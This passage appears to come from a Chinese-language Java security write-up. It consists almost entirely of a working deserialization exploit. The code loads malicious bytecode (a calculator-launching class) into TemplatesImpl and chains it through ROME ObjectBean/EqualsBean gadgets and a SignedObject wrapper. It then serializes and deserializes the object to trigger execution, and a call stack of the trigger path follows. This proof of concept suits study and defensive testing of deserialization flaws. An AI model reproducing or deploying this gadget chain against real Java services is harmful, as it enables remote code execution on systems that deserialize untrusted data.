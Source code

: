 ```bash
    public static void main(String[] args) throws Exception{
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        HashMap hashMap1 = getpayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance("DSA"));

        HashMap hashMap2 = getpayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashMap2);
        oos.close();

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static HashMap getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "rand"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "rand");
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));
        return hashMap;
    }
}
```

调用栈为

```bash
getObject:180, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
toString:120, ObjectBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:339, HashMap (java.util)
readObject:1413, HashMap (java.util)
```
